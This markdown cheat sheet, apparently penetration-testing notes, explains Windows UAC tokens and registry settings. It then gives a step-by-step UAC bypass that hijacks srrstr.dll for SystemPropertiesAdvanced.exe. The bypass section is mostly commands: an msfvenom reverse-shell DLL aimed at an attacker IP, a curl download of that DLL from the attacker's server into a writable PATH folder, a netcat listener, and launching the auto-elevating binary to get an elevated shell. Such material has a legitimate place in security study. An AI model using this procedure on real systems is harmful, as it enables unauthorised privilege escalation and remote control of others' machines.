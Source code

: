 ### **What is UAC?**

- UAC prompts users for consent/elevation when applications require _admin rights_.
- Protects from unintended system changes.
- Not a true _security boundary_, but a hindrance to attackers.

---

### **Integrity Levels & Token Behavior**

- _Admin accounts_ get two tokens:
    - _Standard user token_ (default execution)
    - _Elevated token_ (used after consent)

- _Built-in Administrator (RID 500)_ always runs with high integrity.

---

### **UAC Group Policy Settings**

|**Setting**|**Registry Key**|**Default**|
|---|---|---|
|Admin Approval Mode for built-in Administrator|`FilterAdministratorToken`|Disabled|
|UIAccess apps prompt on non-secure desktop|`EnableUIADesktopToggle`|Disabled|
|Elevation prompt behavior for admins|`ConsentPromptBehaviorAdmin`|Prompt for consent (non-Windows binaries)|
|Elevation prompt for standard users|`ConsentPromptBehaviorUser`|Prompt for credentials|
|Detect installations & prompt|`EnableInstallerDetection`|Enabled (Home) / Disabled (Enterprise)|
|Elevate only signed/validated executables|`ValidateAdminCodeSignatures`|Disabled|
|Elevate only UIAccess apps from secure paths|`EnableSecureUIAPaths`|Enabled|
|Run all admins in Admin Approval Mode|`EnableLUA`|Enabled|
|Use secure desktop for elevation prompt|`PromptOnSecureDesktop`|Enabled|
|Virtualize file/registry failures|`EnableVirtualization`|Enabled|

---

## UAC Bypass: DLL Hijacking (SystemPropertiesAdvanced.exe)

---

### **Target Environment**

- OS Build: _Windows 10 v1607 (Build 14393)_
- UAC Enabled (`EnableLUA = 1`)
- UAC Level: _Always Notify_ (`ConsentPromptBehaviorAdmin = 0x5`)
- PATH includes writable folder:  
    `C:\Users\<user>\AppData\Local\Microsoft\WindowsApps`

---

### **Exploitation Path**

#### **1. Vulnerable Binary**

- `SystemPropertiesAdvanced.exe` (32-bit version in `C:\Windows\SysWOW64`)
- Auto-elevates and tries to load missing `srrstr.dll`

#### **2. DLL Search Order**

1. App directory
2. `C:\Windows\System32`
3. `C:\Windows\System`
4. `C:\Windows`
5. Directories in `%PATH%`

- Attack: Place _malicious `srrstr.dll`_ in writable PATH directory.

---

### **Execution Steps**

#### **1. Generate Malicious DLL**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f dll > srrstr.dll
```

#### **2. Host DLL**
```bash
python3 -m http.server 8080
```

#### **3. Transfer to Target**
```bash
curl http://<attacker_ip>:8080/srrstr.dll -O "C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### **4. Start Listener**
```bash
nc -lvnp <port>
```

#### **5. Launch Vulnerable App**
```bash
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

---

### **Result**

- DLL gets loaded in _elevated context_
- Reverse shell connects back with elevated privileges
- Confirm with:
```cmd
whoami /priv
```

---

### **Cleanup**

- Remove `srrstr.dll` from `WindowsApps`
- Kill any leftover `rundll32` processes (if used)
